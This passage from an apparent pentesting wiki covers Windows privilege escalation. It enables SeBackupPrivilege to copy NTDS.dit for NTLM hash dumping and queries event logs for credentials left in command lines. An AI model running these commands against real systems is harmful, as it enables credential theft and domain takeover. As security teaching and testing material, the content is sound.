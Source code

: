 <figure><img src="../../.gitbook/assets/priv.png" alt=""><figcaption></figcaption></figure>

The SeBackupPrivilege exists but is disabled. The next script will enable this privilege.

```powershell
PS> git clone https://github.com/giuliano108/SeBackupPrivilege.git
PS> cd SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/
PS> Import-Module SeBackupPrivilegeCmdLets.dll
PS> Import-Module SeBackupPrivilegeUtils.dll
```

```powershell
PS> Set-SeBackupPrivilege
PS> Get-SeBackupPrivilege
```

Now the SeBackupPrivilege is enabled. It's possible to copy file. The file NTDS.dit has NTLM credentials but it is locked by default. It's possible to copy it by mounting a shadow copy with [diskshadow](https://doc.nightblue.org/docs/wiki/tools/diskshadow). Once the file NTDS.dit is accessible and copied, there are tools to dump NTLM hashes from this file : [secretsdump.py](https://doc.nightblue.org/docs/wiki/tools/secret-dump) or [DSInternals](https://doc.nightblue.org/docs/wiki/tools/dsinternals).

### Event Log Readers

To perform these commands, you must be in the group `Event Log Readers`.

```
PS> net localgroup "Event Log Readers"
```

You can use two tools to check the logs of the Windows Events : `wevtutil` and `Get-WinEvent`.

```
PS> wevtutil qe Security /rd:true /f:text | Select-String "/user"
PS> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"

Get-WinEvent -LogName security where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

### DnsAdmins

The DNS runs as `NT AUTHORITY\SYSTEM`.

#### Hyper-V Administrators
